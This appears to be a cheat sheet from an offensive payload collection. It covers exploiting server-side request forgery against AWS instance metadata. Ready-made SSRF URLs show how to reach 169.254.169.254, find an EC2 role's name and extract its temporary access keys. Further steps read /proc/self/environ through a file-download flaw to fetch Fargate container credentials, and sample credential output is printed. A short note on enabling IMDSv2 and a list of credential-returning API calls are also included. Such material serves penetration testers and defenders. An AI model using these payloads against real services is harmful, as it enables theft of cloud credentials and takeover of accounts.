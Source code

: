 # AWS - Metadata SSRF

> AWS released additional security defences against the attack.

:warning: Only working with IMDSv1.
Enabling IMDSv2 : `aws ec2 modify-instance-metadata-options --instance-id <INSTANCE-ID> --profile <AWS_PROFILE> --http-endpoint enabled --http-token required`.

In order to use IMDSv2 you must provide a token.

```powershell
export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
```


## Method for Elastic Cloud Compute (EC2)

Example : https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/iam/security-credentials/Awesome-WAF-Role/

1. Access the IAM : https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/
    ```powershell
    ami-id
    ami-launch-index
    ami-manifest-path
    block-device-mapping/
    events/
    hostname
    iam/
    identity-credentials/
    instance-action
    instance-id
    ```
2. Find the name of the role assigned to the instance : https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/iam/security-credentials/
3. Extract the role's temporary keys : https://awesomeapp.com/forward?target=http://169.254.169.254/latest/meta-data/iam/security-credentials/Awesome-WAF-Role/
    ```powershell
    {
    "Code" : "Success",
    "LastUpdated" : "2019-07-31T23:08:10Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "ASIAREDACTEDXXXXXXXX",
    "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXX",
    "Token" : "AgoJb3JpZ2luX2VjEDU86Rcfd/34E4rtgk8iKuTqwrRfOppiMnv",
    "Expiration" : "2019-08-01T05:20:30Z"
    }
    ```


## Method for Container Service (Fargate)

1. Fetch the AWS_CONTAINER_CREDENTIALS_RELATIVE_URI variable from https://awesomeapp.com/download?file=/proc/self/environ
    ```powershell
    JAVA_ALPINE_VERSION=8.212.04-r0
    HOSTNAME=bbb3c57a0ed3SHLVL=1PORT=8443HOME=/root
    AWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447
    AWS_EXECUTION_ENV=AWS_ECS_FARGATEMVN_VER=3.3.9JAVA_VERSION=8u212AWS_DEFAULT_REGION=us-west-2
    ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/cb4f6285-48f2-4a51-a787-67dbe61c13ffPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin:/usr/lib/mvn:/usr/lib/mvn/binLANG=C.UTF-8AWS_REGION=us-west-2Tag=48111bbJAVA_HOME=/usr/lib/jvm/java-1.8-openjdk/jreM2=/usr/lib/mvn/binPWD=/appM2_HOME=/usr/lib/mvnLD_LIBRARY_PATH=/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64/server:/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64:/usr/lib/jvm/java-1.8-openjd
    ```
2. Use the credential URL to dump the AccessKey and SecretKey : https://awesomeapp.com/forward?target=http://169.254.170.2/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447
    ```powershell
    {
        "RoleArn": "arn:aws:iam::953574914659:role/awesome-waf-role",
        "AccessKeyId": "ASIAXXXXXXXXXX",
        "SecretAccessKey": "j72eTy+WHgIbO6zpe2DnfjEhbObuTBKcemfrIygt",
        "Token": "FQoGZXIvYXdzEMj/////...jHsYXsBQ==",
        "Expiration": "2019-09-18T04:05:59Z"
    }
    ```


## AWS API calls that return credentials

- chime:createapikey
- [codepipeline:pollforjobs](https://docs.aws.amazon.com/codepipeline/latest/APIReference/API_PollForJobs.html)
- [cognito-identity:getopenidtoken](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdToken.html)
- [cognito-identity:getopenidtokenfordeveloperidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdTokenForDeveloperIdentity.html)
- [cognito-identity:getcredentialsforidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html)
- [connect:getfederationtoken](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [connect:getfederationtokens](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [ecr:getauthorizationtoken](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_GetAuthorizationToken.html)
- [gamelift:requestuploadcredentials](https://docs.aws.amazon.com/gamelift/latest/apireference/API_RequestUploadCredentials.html)
- [iam:createaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateAccessKey.html)
- [iam:createloginprofile](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateLoginProfile.html)
- [iam:createservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateServiceSpecificCredential.html)
- [iam:resetservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ResetServiceSpecificCredential.html)
- [iam:updateaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAccessKey.html)
- [lightsail:getinstanceaccessdetails](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetInstanceAccessDetails.html)
- [lightsail:getrelationaldatabasemasteruserpassword](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetRelationalDatabaseMasterUserPassword.html)
- [rds-db:connect](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)
- [redshift:getclustercredentials](https://docs.aws.amazon.com/redshift/latest/APIReference/API_GetClusterCredentials.html)
- [sso:getrolecredentials](https://docs.aws.amazon.com/singlesignon/latest/PortalAPIReference/API_GetRoleCredentials.html)
- [mediapackage:rotatechannelcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-credentials.html)
- [mediapackage:rotateingestendpointcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-ingest_endpoints-ingest_endpoint_id-credentials.html)
- [sts:assumerole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html)
- [sts:assumerolewithsaml](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-saml.html)
- [sts:assumerolewithwebidentity](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-web-identity.html)
- [sts:getfederationtoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-federation-token.html)
- [sts:getsessiontoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-session-token.html)


## References

* [AWS API calls that return credentials - kmcquade](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)
* [Cloud security instance metadata - PumaScan - Eric Johnson - 09 Oct 2019](https://pumascan.com/resources/cloud-security-instance-metadata/)
* [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2) - Sunesh Govindaraj - Nov 25, 2019](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)
* [Privilege escalation in the Cloud: From SSRF to Global Account Administrator - Maxime Leblanc - Sep 1, 2018](https://medium.com/poka-techblog/privilege-escalation-in-the-cloud-from-ssrf-to-global-account-administrator-fd943cf5a2f6)
* [Getting shell and data access in AWS by chaining vulnerabilities - Riyaz Walikar - Aug 29, 2019 ](https://blog.appsecco.com/getting-shell-and-data-access-in-aws-by-chaining-vulnerabilities-7630fa57c7ed)